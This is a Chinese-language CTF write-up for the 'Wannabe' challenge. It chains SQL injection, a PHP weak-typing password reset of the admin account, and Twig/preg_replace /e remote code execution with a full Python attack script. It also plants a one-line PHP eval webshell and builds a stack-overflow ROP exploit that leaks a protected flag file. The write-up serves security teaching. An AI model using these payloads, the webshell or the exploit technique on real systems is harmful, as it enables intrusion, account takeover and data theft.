

Wannabe

这道题目非常难（调了很长时间），主要在于Web和Exploiting的结合这使得对于解题选手的综合要求非常高，整个解题的环节也非常多，而且里面有很多tricky的东西。
首先是一个Web页面。一开始的话看到有留言，不过XSS无效。然后又发现了在cookie里面有蹊跷，也许是一个cookie中的SQLi，不过事后的事实证明cookie的加密涉及到一个预定的SIGNATURE非常复杂，根本不能从这里突破。最后，我们把视线放到上传bug的页面上。
这里上传环节，四个参数。我们发现传上去的文件是可以下载下来的，于是想到是不是能通过某种方式把php的source code给下载下来。这里容易猜测涉及到的是INSERT语句，于是根据INSERT的语法，Insert ... values () 类似的。在Rating域中发现了SQLi。修改post数据如下：
1
2
rating = 1, (select database()), 0x31, 1) -- --
title = 0ops
在返回的页面中bug记录会多出一条，其中的title为db_auther正是数据库名。注入成功了。我们注意到第三项应该代表的是文件名。于是我们想到用文件名的hex编码去填充第三项，这样是不是就能把那个文件下载下来了呢？
1
2
rating = 1, 0x41, 0x696e6465782e706870,1) -- --
title = 0ops
其中0x696e6465782e706870是”index.php”的16进制编码。果然在新的页面中多了一条，点击下载就可以把index.php下载下来了。打开看下，
1
2
3
4
5
6
7
8
9
10
11
12
13
require_once 'include/password-policy.php';
include('extension/filter.php');
include('include/config.php');
include('include/functions.php');
include('include/Database.php');
include('include/User.php');
foreach ($controllers as $controller) {
include("controller/".$controller.".php");
}
注意到了这些吗？用同样的手段把所有的页面全部都下载下来。要注意config.php里面有数据库的信息，User.php里面有数据表的信息,另外config里面列出了所有的controller所以可以把controller目录下的所有php都下载下来。接下来就是代码分析了。我们在filter.php里面发现了这个玩意儿。
1
2
3
4
5
6
7
<?php
require_once 'twig/lib/Twig/SimpleFilter.php';
$makestatus = new Twig_SimpleFilter('makestatus', function($string) {
return preg_replace('/(red|green): (.*)/e', '\'<div style="color:$1;">\'.strtolower("$2").\'</div>\'', $string);
}, array('is_safe' => array('html')));
?>
注意到那个preg_replace里面的/e，它相当于把正则匹配出来的东西eval了一下。这件事情在php的官方文档里都提到了，/e非常危险。我们就要利用这个可以做一个php远程代码执行。我们先看看如何触发这个filter。
注意到config.php里面有Twig的配置信息，目录是skeleton。Twig其实是一套php模板系统，参考一下这个页面:
1
https://ctf.fluxfingers.net:1317/skeleton/panel.twig
，我们发现模板格式调用的规范是类似于 { { text|StyleName } } 这样的。所以我们可以用
1
{ { "red: {${eval($_POST[phpcode])}}"|makestatus } }
类似的去做一个php远程代码执行。让我们看一下把他放在哪里吧？我们注意到PanelController.php页面：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
public function prevAction($db, $user) {
global $twig;
global $makestatus;
if (!$user->isAdmin())
throw new Exception("You don't have the permission to view this site", 1);
if (!isset($_POST['title']))
throw new Exception("Please enter a title");
if (!isset($_POST['text']))
throw new Exception("Please enter a text");
$data = $db->select('password', 'user', "WHERE name='admin' LIMIT 1");
if (sha1($_POST['password']) !== $data[0]['password'])
throw new Exception("You need to provide your admin password before you can perform an action");
$prev = $twig->loadTemplate("panel.twig");
$out = $prev->render(array('title' => $_POST['title'], 'text' => $_POST['text'], 'author' => 'admin', 'created' => 'now', 'prev' => '1', 'admin' => $user->isAdmin()));
$tmp = new Twig_Environment(new Twig_Loader_String());
$tmp->addFilter($makestatus);
echo $tmp->render($out);
}
我们发现这里$makestatus派上用场了，它对往这个 https://ctf.fluxfingers.net:1317/?site=panel&action=prev 的POST数据做了正则。所以我们只要往这个POST数据里的title或者text里填上上面提到那句话就可以了。但是事情没有那么简单，Panel仅仅是对admin可见的（在POST的过程中需要传admin的密码）。通过前面的注入包括后来的源代码已经发现了admin的密码在数据库中是sha1形式的，没办法获得。怎么办，我们把视线又转移到了这个页面LostController.php（一个用来重置密码的页面）。
通过前面的SQLi注入我们知道在数据中有两个帐户一个是admin一个是guest。第一个是重置密码需要reset code，但这个不要紧通过SQLi一查就出来了。但在页面前端试过就知道guest是可以重置密码的但是admin不能重置密码。这怎么办呢？看看LostController.php。
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
$data = $db->select("id", "user", "WHERE reset='".mysql_real_escape_string($code)."' AND reset <>''");
if (empty($data))
throw new Exception("Invalid reset code");
if ($data[0]['id'] == $id) {
$reset = array(
'password' => "'".mysql_real_escape_string(sha1($pass))."'",
'reset' => "''"
);
$db->update("user", $reset, "WHERE id=".intval($id));
$this->vars['complete'] = "green: Password successfully reseted";
$this->indexAction($db, $user);
} else {
throw new Exception("Invalid user-id specified");
}
Web部分的高潮大概就在这里。我们注意到guest的id是1，admin的id是0。这里$id是GET数据是我们给的。要知道我们通过SQLi只能拿guest的reset code，这样取出来$data[0][‘id’]是1，如果我们把$id给一个值是’0x1’，php弱类型比较那么很明显if语句是正确的。但是问题出在下面那个$db->update。intval($id)=intval('0x1')=0也就是说我们改掉了admin的密码。
我们基本搞定了Web部分，看下脚本吧。
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
from time import sleep
import hashlib
import pycurl
import urllib
import StringIO
import json
import sys
import re
import base64
cookie = "user_id=89f7c94cf1be5c66932a9ba8081adbd; user_hash=f19f8da6c34b006ecde7f7c7048c2b849705d4d4; user_bugs=YTowOnt9; user_mac=caaba4854cf92c4a16a284e620937f9623fd321d"
url = "https://ctf.fluxfingers.net:1317/?site=bug&action=add"
postData = { "rating" : "" ,
"title" : "asdf"
}
def curl ( url , cookie , postData = None , cookieJar = None ):
pc = pycurl . Curl ()
ret = StringIO . StringIO ()
pc . setopt ( pycurl . URL , url )
pc . setopt ( pycurl . COOKIE , cookie )
pc . setopt ( pycurl . WRITEFUNCTION , ret . write )
if cookieJar != None :
pc . setopt ( pycurl . COOKIEFILE , "cookie.txt" )
pc . setopt ( pycurl . COOKIEJAR , "cookie.txt" )
if postData != None :
pc . setopt ( pc . POSTFIELDS , urllib . urlencode ( postData ))
pc . setopt ( pycurl . SSL_VERIFYHOST , False )
pc . setopt ( pycurl . SSL_VERIFYPEER , False )
pc . perform ()
return ret . getvalue ()
def reset ():
postData [ "rating" ] = "1, (SELECT concat(0x414141,reset,0x414141) from 6karuhf843_user where id=1), 0x31, 1) -- --"
result = curl ( url , cookie , postData , 1 )
result = re . findall ( r"AAA(.+)AAA" , result )[ 0 ]
rc = result
pw = "0Ops" * 5
rUrl = "https://ctf.fluxfingers.net:1317/?action=update&site=lost&id=0x1&pass= %s &pass2= %s &code= %s " % ( pw , pw , rc )
print curl ( rUrl , cookie , None , 1 )
def tryVer ():
#reset()
cookie = "user_id=e62552ab44206edaee9d25e57f6dc220; user_hash=4633e20cc0811f08419e4f650292dda905d1a2a2; user_bugs=YTowOnt9; user_mac=670f82f4a1d440158f6adba85f05b163852c3515"
pdata = {}
php = "system(' %s ');" % sys . argv [ 1 ]
pdata [ "phpcode" ] = php
pdata [ "title" ] = "abc"
pdata [ "text" ] = "{ { \" red: {${eval($_POST[phpcode])} } \" |makestatus } }"
pdata [ "password" ] = "0Ops" * 5
rUrl = "https://ctf.fluxfingers.net:1317/?site=panel&action=prev"
result = curl ( rUrl , cookie , pdata , None )
#result = re.findall(r"er=\"News\" rows=\"5\">(.+)<div style=\"color:red;\"></div></textarea>", result, re.S)[0]
print result
if __name__ == "__main__" :
tryVer ()
只要调用python脚本的时候给一个参数就能当系统命令执行啦。要注意脚本里面reset()是用来重置密码的，因为这中间cookie会变，所以pycurl的过程里要设置cookieJar。后面的命令执行不用。这里我们要做一个shell怎么搞呢？直接nc是不行的，因为主办方表示forbid了data traffic。我们只有在/var/www目录下（这是当前目录）的upload目录下面有读写权限，这点非常关键。有两个办法可以搞shell，第一个
1
python attack . py "echo \' <?php @eval($_POST[ \' pass \' ]);?> \' > ./upload/test.php"
之后用菜X去连大家明白的。
另外一种是后面bin部分也要用的方法就是在前台上传一个phpspy.php当然后缀名要改成jpg。然后我们用ls upload去看下它被改成了什么名字。之后用
1
python attack . py "cp ./upload/xxx.jpg ./upload/test.php"
之后大家都懂的。
WEB部分到这里就告一段落了。我们在/home/arthur目录下面发现了一个叫做sign_key.flag的文件应该就是key了可惜没有读权限。但是我们注意到在/home/arthuer/bin下面有一个control有一个control.c。显然的要开始做exploit啦！
看一下control.c，sign方法没什么希望exploit我们看看clean方法。
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
char found [ 255 ][ 192 ];
int cookie ;
void inspect ( char * filename )
{
FILE * fp ;
char path [ 255 ];
char tmp [ 511 ];
char * pos ;
snprintf ( path , 255 , " %s%s " , check_dir , filename );
if (( fp = fopen ( path , "r" )) == NULL )
return ;
while ( fgets ( tmp , 511 , fp ) != NULL ) {
if (( pos = strstr ( tmp , "system( \" " )) != NULL ) {
unsigned int length ;
char * end = strstr ( pos , " \" );" );
if ( end == NULL )
continue ;
length = end - ( pos + 8 );
if ( length > 192 )
length = 192 ;
strncpy ( found [ cnt ], pos + 8 , length );
cnt ++ ;
}
}
}
这里它把./upload目录下的文件都过一遍，看看有没有system(“”)类似的语句。如果有就拿出来放到found数组里面去。found这个数组在全局定义为found[255][192]。这里尽管限制了found[i]的长度，但是对这个i没有限制，如果说类似的system(“”)超过了255个将会覆盖掉cookie的值。
再往下看,
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
void log_result ( unsigned char cnt )
{
int overflow = cookie ;
char buffer [ 224 ];
bzero ( buffer , 224 );
for ( i = 0 ; i < cnt ; i ++ ) {
snprintf ( buffer , strlen ( found [ i ]) + 32 , "systemcall ( %d / %d ): %s " , i + 1 , cnt , found [ i ]);
puts ( buffer );
}
if ( overflow != cookie ) {
printf ( "overflow shit, cookie does not match: %s ... \n " , overflow );
abort ();
}
}
这里我们看到overflow的判断不成问题，因为前面我们已经能覆盖cookie了这里把overflow覆盖成同样的值就OK了。看一下栈布局吧，能不能利用snprintf溢出呢，调试一下吧（control和control.c能用shell搞下来）。
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
gdb $ x / 100 x $ rbp - 0x110
0x7fffffffe300 : 0x74737973 0x61636d65 0x28206c6c 0x29312f31
0x7fffffffe310 : 0x4141203a 0x41414141 0x41414141 0x41414141
0x7fffffffe320 : 0x41414141 0x41414141 0x41414141 0x41414141
0x7fffffffe330 : 0x41414141 0x41414141 0x41414141 0x41414141
0x7fffffffe340 : 0x41414141 0x41414141 0x41414141 0x41414141
0x7fffffffe350 : 0x41414141 0x41414141 0x41414141 0x41414141
0x7fffffffe360 : 0x41414141 0x41414141 0x41414141 0x41414141
0x7fffffffe370 : 0x41414141 0x41414141 0x41414141 0x41414141
0x7fffffffe380 : 0x41414141 0x41414141 0x41414141 0x41414141
0x7fffffffe390 : 0x41414141 0x41414141 0x41414141 0x41414141
0x7fffffffe3a0 : 0x41414141 0x41414141 0x41414141 0x41414141
0x7fffffffe3b0 : 0x41414141 0x41414141 0x41414141 0x41414141
0x7fffffffe3c0 : 0x41414141 0x41414141 0x41414141 0x41414141
0x7fffffffe3d0 : 0x00004141 0x00000000 0x00000000 0x00000000
0x7fffffffe3e0 : 0x00000000 0x00000000 0xf7ae5a96 0xb4e688b1
0x7fffffffe3f0 : 0xffffe420 0x00007fff 0x00000000 0x00000000
0x7fffffffe400 : 0x00400b60 0x00000000 0xffffe630 0x00007fff
0x7fffffffe410 : 0xffffe530 0x00007fff 0x004012b0 0x00000000
我们注意到buffer开头地址是0x7fffffffe300, rip在0x7fffffffe416。buffer(18+192=210)结束到0x7fffffffe3d2，距离rip为0x44=68。
另外我们的目标是那个sign_key.flag。所以我们可以利用puts把它输出出来。x64第一个参数压到%rdi里面。
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
root @kali : / home / root / ROPgadget - dev # ./ROPgadget control
Gadgets information
============================================================
0x0000000000400ba5 : pop rbp ; ret
0x0000000000401583 : pop rdi ; ret
400 ccb : bf 80 1 d 60 00 mov $ 0x601d80 , % edi
400 cd0 : e8 0 b fd ff ff callq 4009e0 < fread @plt >
lovelydream @ : ~ $ objdump - d control | grep puts
0000000000400 9 d0 < puts @plt > :
4014 be : e8 0 d f5 ff ff callq 4009 d0 < puts @plt >
400 cbe : 48 89 c1 mov % rax , % rcx
400 cc1 : ba 01 00 00 00 mov $ 0x1 , % edx
400 cc6 : be 1 e 00 00 00 mov $ 0x1e , % esi
400 ccb : bf 80 1 d 60 00 mov $ 0x601d80 , % edi
400 cd0 : e8 0 b fd ff ff callq 4009e0 < fread @plt >
lovelydream @ : ~ $ objdump - d control | grep exit
0000000000400 b20 < exit @plt > :
400 cb5 : e8 66 fe ff ff callq 400 b20 < exit @plt >
有了这些我们就可以构造一个”pop rdi; ret” + key_address + puts + exit的gadget把最后的key输出出来。
最后我们看下怎么利用snprintf把exp写到内存里面去。这里我们注意到inspect函数的strncpy是限制了长度的，但是如果我们给了长度为192的字符串的话，found[i]字符串的结束符\x00将会被found[i+1]的字符串覆盖，这样会导致snprintf的时候把found[i]连同这found[i+1]一起写到buffer里面去从而去覆盖rip。
但是我们还有一个问题没有解决就是说我们的exp里面有大量的\x00(因为我们要把地址都pack成8bytes的，16个16进制位)在面对字符串操作的时候可能会出问题，这里我想是bin部分的高潮。就是我们可以把我们的exp一段段写进去，每一段由\x00分开，然后我们从最右端端开始每次写一段进去（从最右端第一个\x00到字符串结束，然后把这段给删了）。这样的话我们的exp在内存里不是一次写进去的，是一部分一部分写进去的(打个比方，就好比铺地毯一样，前面的A用来填充的无所谓，每次覆盖掉就覆盖掉了)。然后利用C语言对于字符串操作最后会补\x00的特点把我们exp里的\x00全部写进去！
废话不多说我们直接上exp片段
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
def pack ( addr ):
return struct . pack ( "<Q" , addr )
filename = "./upload/pwn"
f = open ( filename , "w" )
def add_file ( data ):
global f
f . write ( 'system("' + data + '"); \n ' )
def write_data ( offset , data ):
null_off = data . rfind ( " \x00 " )
while null_off >= 0 :
add_file ( "A" * 192 )
add_file ( "A" * ( offset + null_off + 1 ) + data [ null_off + 1 :])
data = data [: null_off ]
null_off = data . rfind ( " \x00 " )
add_file ( "A" * 192 )
add_file ( "A" * ( offset + null_off + 1 ) + data [ null_off + 1 :])
for i in range ( 256 ):
add_file ( "A" * 100 )
write_data ( rip_off , pack ( gadget ) + pack ( key ) + pack ( puts ) + pack ( exit ))
代码片段，其中rip_off是前文分析提到的68。注意这个循环，真的非常非常精妙。
最后说下怎么去跑这个exp吧。用上面说到的办法，改成jpg后缀名前台上传，然后利用cp命令改成py后缀然后 python ./upload/test.py 类似的。
最后的最后，执行命令”/home/arthur/bin/control —clean”。St4cK_c00KiE_u53D_wRoNG
要非常非常感谢https://stratum0.org提供的题解，其实我的整体思路基本都是学习并理解了它们的writeup特别是最后这段exp，怎么也没有想到。但是他们写的有很多细节地方都不清楚，特别是一些web方面的东西，我做了比较详细的解释和补充。这次这道题目一共只有9个队解出了，看了下都是赫赫有名的综合强队，感觉能做出这样的题目真的非常不容易需要实力到一定的境界了。Fighting Chinese CTFers!